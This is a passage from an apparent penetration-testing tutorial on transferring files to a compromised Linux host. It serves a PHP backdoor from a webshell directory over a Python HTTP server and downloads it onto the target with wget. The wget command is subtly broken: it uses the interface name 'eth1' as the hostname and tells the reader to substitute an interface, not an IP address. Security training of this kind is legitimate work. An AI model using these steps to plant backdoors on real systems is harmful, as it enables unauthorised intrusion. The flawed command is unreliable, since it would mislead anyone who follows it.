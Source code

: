 Retrieve OS release information:

```bash
cat /etc/release
```

---

#### 4. Transferring Files to the Target System

Next, we will transfer a file to the compromised Linux target. To do this, we will set up a simple web server on our local machine to serve the file.

**Open a New Terminal Session:**

In Tmux, open a new terminal session:

```bash
CTRL + B + C
```

Navigate to the directory containing the file we want to transfer (in this case, a PHP backdoor):

```bash
cd /usr/share/webshells/php
```

Display the network interfaces to find our local IP address (we assume the interface is `eth1`):

```bash
ifconfig
```

Start a Python HTTP server to serve the PHP file:

```bash
python3 -m http.server 80
```

This will start a web server on port 80, allowing us to download the file from the target.

---

#### 5. Downloading the File on the Target

Now, switch back to the first terminal session (Tmux session 0):

```bash
CTRL + B + 0
```

On the target system (where we have a shell), download the PHP backdoor using `wget`:

```bash
wget http://eth1/php-backdoor.php
```

- Replace `eth1` with your actual interface if it's different.
- This command will fetch the PHP backdoor from our local machine to the target system.

---

### Summary
